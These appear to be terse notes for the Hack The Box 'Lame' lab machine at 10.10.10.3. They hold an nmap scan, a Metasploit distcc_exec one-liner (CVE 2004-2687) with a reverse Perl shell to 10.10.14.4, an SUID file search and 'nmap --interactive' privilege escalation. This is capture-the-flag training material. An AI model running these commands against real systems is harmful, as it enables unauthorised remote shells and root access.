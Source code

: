 Htb-lame : 10.10.10.3


Dist CC  4.2.4 
  CVE 2004-2687 

$ /usr/bin/nmap --interactive
 


$ nmap -A 10.10.10.3
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4)) => exploit

$ msfconsole
msf5 > search distccd

$ msfconsole -x "use exploit/unix/misc/distcc_exec; set payload cmd/unix/reverse_perl;set RHOST 10.10.10.3;set LHOST 10.10.14.4;exploit"

# Exploit (à récupérer)
ruby exploit_distcc.rb 


$ find / -user root -perm -4000 -print 2>/dev/null
$ /usr/bin/nmap --interactive


